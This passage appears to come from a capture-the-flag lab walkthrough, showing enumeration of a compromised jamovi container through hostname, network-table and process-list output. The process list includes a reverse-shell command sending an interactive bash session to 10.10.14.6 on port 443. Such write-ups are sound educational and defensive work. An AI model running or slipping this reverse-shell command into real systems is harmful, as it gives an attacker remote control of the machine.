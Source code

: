     root@b06821bbda78:~# 
    

## Shell as www-data in Bolt Container

### Enumeration

#### Container

This shell is clearly in a container:

    
    
    root@b06821bbda78:~# hostname
    b06821bbda78                    
    root@b06821bbda78:~# ip addr  
    bash: ip: command not found
    root@b06821bbda78:~# ifconfig
    bash: ifconfig: command not found
    root@b06821bbda78:~# cat /proc/net/fib_trie
    Main:
    ...[snip]...
         +-- 172.18.0.0/16 2 0 2
            +-- 172.18.0.0/30 2 0 2
               |-- 172.18.0.0
                  /32 link BROADCAST
                  /16 link UNICAST
               |-- 172.18.0.2
    ...[snip]...
    

The IP is 172.18.0.2, and there’s very limited tools installed. The process
list shows only jamovi stuff:

    
    
    root@b06821bbda78:~# ps auxww
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.0 101704   288 ?        Ss   15:21   0:00 /bin/bash /usr/bin/jamovi-server 41337 --if=*
    root          12  1.1  1.2 863208 24240 ?        Sl   15:21   1:28 python3 -u -m jamovi.server 41337 --if=*
    root          42  0.2  4.2 501692 85908 ?        Sl   17:10   0:02 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmp94xmzbhn/conn-0 --path=/tmp/tmp3ymj4a5l
    root          44  0.1  2.9 255848 59840 ?        Sl   17:10   0:01 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmp94xmzbhn/conn-1 --path=/tmp/tmp3ymj4a5l
    root          46  0.1  2.9 255848 59652 ?        Sl   17:10   0:01 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmp94xmzbhn/conn-2 --path=/tmp/tmp3ymj4a5l
    root          60  0.0  0.2  90072  5948 ?        S    17:21   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
    root          61  0.0  0.3 101704  7200 ?        S    17:21   0:00 bash -c bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    root          62  0.0  0.3 101880  7716 ?        S    17:21   0:00 bash -i
    root          68  0.0  0.3 102660  6500 ?        R    17:22   0:00 script /dev/null -c bash
    root          69  0.0  0.2  90072  5924 pts/0    Ss   17:22   0:00 sh -c bash
    root          70  0.0  0.3 101884  7740 pts/0    S    17:22   0:00 bash
    root          84  0.0  0.3 115908  7136 pts/0    R+   17:27   0:00 ps auxww
    